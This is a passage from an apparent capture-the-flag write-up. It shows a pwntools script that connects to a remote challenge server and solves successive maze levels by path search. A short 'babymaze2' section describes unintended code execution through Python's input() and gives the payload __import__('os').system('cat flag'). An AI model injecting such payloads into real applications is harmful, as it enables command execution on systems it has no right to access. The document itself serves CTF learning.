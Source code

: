 ```python
            return False
        else:
            history_path.append(new_location)
            lookup_path.append(new_location)
            return True
def get_line(path):
	p = ''
	for i in range(len(path)-1):
		tmp1 = path[i]
		tmp2 = path[i + 1]
		if tmp1[0] > tmp2[0]:
			p += 'w'
		elif tmp1[0] < tmp2[0]:
			p += 's'
		if tmp1[1] > tmp2[1]:
			p += 'a'
		elif tmp1[1] < tmp2[1]:
			p += 'd'
	return p
	

p = remote('182.92.203.154',11001)
p.sendlineafter('Please press any key to start.','FMYY')

for i in range(5):
	log.info('LEVEL' + str(i+1))
	maze,start,end = Get_T(11 + i*10)
	lookup_path = []
	history_path = []
	lookup_path.append(start)
	history_path.append(start)
	while lookup_path[-1] != end:
		now = lookup_path[-1]
		if up(now) or down(now) or left(now) or right(now):
			continue
		lookup_path.pop()
	#print("Final:", lookup_path)
	path = get_line(lookup_path)
	#log.info('PATH:\t' + path)
	p.sendlineafter('> ',path)
	p.recvuntil('your win\n')

p.interactive()

```

### babymaze2

input漏洞函数的非预期RCE

```python
__import__('os').system('cat flag')
```
